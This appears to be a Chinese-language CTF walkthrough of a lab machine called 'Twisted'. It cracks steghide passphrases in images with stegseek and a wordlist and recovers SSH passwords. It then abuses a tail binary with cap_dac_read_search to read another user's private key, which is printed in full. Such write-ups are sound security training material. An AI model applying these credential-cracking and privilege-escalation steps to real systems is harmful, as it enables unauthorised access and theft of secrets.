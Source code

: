 ```yaml
---
date: 2025-04-02
tags:
    - stegseek
    - capabilities提权
---
```




# Twisted

`fscan`扫描发现仅开放`80`和`2222`端口，访问网页

![](./img/Twisted-1.png)

发现给了两张猫的照片，`stegsolve`与或啥都不行，又试了盲水印,也不是，目录扫描也没有东西，看了wp才知道需要用[stegseek](https://github.com/RickdeJager/stegseek)

检测是否使用`steghide`进行编码

```bash
$ stegseek --seed cat-hidden.jpg
[i] Found (possible) seed: "841e4403"            
        Plain size: 47.0 Byte(s) (compressed)
        Encryption Algorithm: rijndael-128
        Encryption Mode:      cbc
```

爆破`hidden`解密

```bash
$ stegseek --crack cat-hidden.jpg  ~/rockyou.txt
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek
[i] Found passphrase: "sexymama"
[i] Original filename: "mateo.txt".
[i] Extracting to "cat-hidden.jpg.out".

$cat cat-hidden.jpg.out
thisismypassword
```

爆破`original`解密

```bash
$ stegseek --crack cat-original.jpg  ~/rockyou.txt 
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "westlife"
[i] Original filename: "markus.txt".
[i] Extracting to "cat-original.jpg.out".

$ cat cat-original.jpg.out
markuslovesbonita
```

整理一下最终账号密码为

```
mateo/thisismypassword
markus/markuslovesbonita
```

`ssh`连接

```bash
ssh -p 2222 mateo@192.168.1.66
```

![](./img/Twisted-2.png)

在`note.txt`发现内容为

```
/var/www/html/gogogo.wav
```

`markus`这里的`note.txt`师

```
Hi bonita,
I have saved your id_rsa here: /var/cache/apt/id_rsa
Nobody can find it.
```

在`bonita`用户这里找到`beroot`的`elf`文件，那么现在只要读去`bonita`用户的`id_rsa`来登录`bonita`用户再登录`root`即可，直接读取权限不够，尝试`suid`提权

```bash
markus@twisted:~$ find / -perm -4000 2>/dev/null
/home/bonita/beroot
/usr/bin/su
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/mount
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/newgrp
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
markus@twisted:~$ sudo -l
-bash: sudo: command not found
```

发现`suid`没找到，尝试`capabilities`提权

```bash
markus@twisted:~$ /usr/sbin/getcap / -r 2>/dev/null
/usr/bin/ping = cap_net_raw+ep
/usr/bin/tail = cap_dac_read_search+ep
```

发现`tail`，直接读文件

```bash
$ /usr/bin/tail -n 50 /var/cache/apt/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEA8NIseqX1B1YSHTz1A4rFWhjIJffs5vSbAG0Vg2iTa+xshyrmk6zd
FyguFUO7tN2TCJGTomDTXrG/KvWaucGvIAXpgV1lQsQkBV/VNrVC1Ioj/Fx3hUaSCC4PBS
olvmldJg2habNOUGA4EBKlTwfDi+vjDP8d77mF+rvA3EwR3vj37AiXFk5hBEsqr9cWeTr1
vD5282SncYtJb/Zx0eOa6VVFqDfOB7LKZA2QYIbfR7jezOdX+/nlDKX8Xp07wimFuMJpcF
gFnch7ptoxAqe0M0UIEzP+G2ull3m80G5L7Q/3acg14ULnNVs5dTJWPO2Fp7J2qKW+4A5C
tt0G5sIBpQAAA8hHx4cBR8eHAQAAAAdzc2gtcnNhAAABAQDw0ix6pfUHVhIdPPUDisVaGM
gl9+zm9JsAbRWDaJNr7GyHKuaTrN0XKC4VQ7u03ZMIkZOiYNNesb8q9Zq5wa8gBemBXWVC
xCQFX9U2tULUiiP8XHeFRpIILg8FKiW+aV0mDaFps05QYDgQEqVPB8OL6+MM/x3vuYX6u8
DcTBHe+PfsCJcWTmEESyqv1xZ5OvW8PnbzZKdxi0lv9nHR45rpVUWoN84HsspkDZBght9H
uN7M51f7+eUMpfxenTvCKYW4wmlwWAWdyHum2jECp7QzRQgTM/4ba6WXebzQbkvtD/dpyD
XhQuc1Wzl1MlY87YWnsnaopb7gDkK23QbmwgGlAAAAAwEAAQAAAQAuUW5GpLbNE2vmfbvu
U3mDy7JrQxUokrFhUpnJrYp1PoLdOI4ipyPa+VprspxevCM0ibNojtD4rJ1FKPn6cls5gI
mZ3RnFzq3S7sy2egSBlpQ3TJ2cX6dktV8kMigSSHenAwYhq2ALq4X86WksGyUsO1FvRX4/
hmJTiFsew+7IAKE+oQHMzpjMGyoiPXfdaI3sa10L2WfkKs4I4K/v/x2pW78HIktaQPutro
nxD8/fwGxQnseC69E6vdh/5tS8+lDEfYDz4oEy9AP26Hdtho0D6E9VT9T//2vynHLbmSXK
mPbr04h5i9C3h81rh4sAHs9nVAEe3dmZtmZxoZPOJKRhAAAAgFD+g8BhMCovIBrPZlHCu+
bUlbizp9qfXEc8BYZD3frLbVfwuL6dafDVnj7EqpabmrTLFunQG+9/PI6bN+iwloDlugtq
yzvf924Kkhdk+N366FLDt06p2tkcmRljm9kKMS3lBPMu9C4+fgo9LCyphiXrm7UbJHDVSP
UvPg4Fg/nqAAAAgQD9Q83ZcqDIx5c51fdYsMUCByLby7OiIfXukMoYPWCE2yRqa53PgXjh
V2URHPPhqFEa+iB138cSgCU3RxbRK7Qm1S7/P44fnWCaNu920iLed5z2fzvbTytE/h9QpJ
LlecEv2Hx03xyRZBsHFkMf+dMDC0ueU692Gl7YxRw+Lic0PQAAAIEA82v3Ytb97SghV7rz
a0S5t7v8pSSYZAW0OJ3DJqaLtEvxhhomduhF71T0iw0wy8rSH7j2M5PGCtCZUa2/OqQgKF
eERnqQPQSgM0PrATtihXYCTGbWo69NUMcALah0gT5i6nvR1Jr4220InGZEUWHLfvkGTitu
D0POe+rjV4B7EYkAAAAOYm9uaXRhQHR3aXN0ZWQBAgMEBQ==
-----END OPENSSH PRIVATE KEY-----
```

用私钥登录，运行`beroot`，发现需要`code`，下载到`ida`查看一下

![](./img/Twisted-4.png)

`code`是`5880`

![](./img/Twisted-5.png)
